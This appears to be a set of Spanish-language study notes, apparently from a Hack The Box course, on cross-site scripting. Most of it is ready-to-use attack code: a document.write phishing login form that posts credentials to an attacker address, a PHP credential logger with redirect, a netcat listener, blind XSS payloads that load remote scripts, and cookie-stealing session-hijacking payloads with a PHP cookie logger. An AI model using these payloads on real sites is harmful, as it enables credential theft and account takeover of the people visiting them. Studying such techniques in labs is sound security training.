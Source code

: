 ## Poc
```html
<script>alert(window.origin)</script>
```

```html
<script>alert(document.cookie)</script>
```

Ez y no usar alert():

```
<script>print()</script>
```
cuando es DOM-based :
```html
<img src="" onerror=alert(window.origin)>
```


## login form injection
todo esto metido en la funcion document.write()
```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

ANTES:
<img width="1067" height="406" alt="image" src="https://github.com/user-attachments/assets/ba8e2d8e-a17f-4d20-bba9-f7b8258ceec5" />


DESPUES:
<img width="1052" height="253" alt="image" src="https://github.com/user-attachments/assets/c19487d1-ee32-4555-94dc-afa0648d9f7f" />


 vemos que tenemos el formulario pero todavía está el formulario antiguo, por ende tenemos que borrar el antiguo formulario,para ello utilizaremos la función `document.getElementById().remove()` y para ver el ID lo veremos en el código html : 
 ```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```

PAYLOAD FINAL:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

Y para recibir las credenciales : 
```shell-session
bonack@htb[/htb]$ sudo nc -lvnp 80
```
al usar netcat el usuario que ponga las credenciales le saltará un error , si queremos algo más realista insertaremos un código php que haga que le redirija a la página original de nuevo, el archivo será `index.php` guardado en ``/tmp/tmpserver/`` . CÓDIGO:

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

y luego : 

```shell-session
bonack@htb[/htb]$ mkdir /tmp/tmpserver
bonack@htb[/htb]$ cd /tmp/tmpserver
bonack@htb[/htb]$ vi index.php #at this step we wrote our index.php file
bonack@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```
 luego las credenciales se guardarán en un archivo `creds.txt`


## Blind XSS

XSS a una página a la que no tenemos acceso (como por ejemplo una página de administración)

payloads:

```html
<script src=http://OUR_IP></script>

'><script src=http://OUR_IP></script>

"><script src=http://OUR_IP></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>

<script>$.getScript("http://OUR_IP")</script>
```
 y hacer : 
```
 mkdir /tmp/tmpserver
 cd /tmp/tmpserver
 sudo php -S 0.0.0.0:80
```



###  Session Hijacking

payloads:

`
```javascript
<script>document.location='http://OUR_IP/index.php?c='+document.cookie</script>
<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script> 
```


código para ordenar las cookies que encontremos(index.php) : 

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
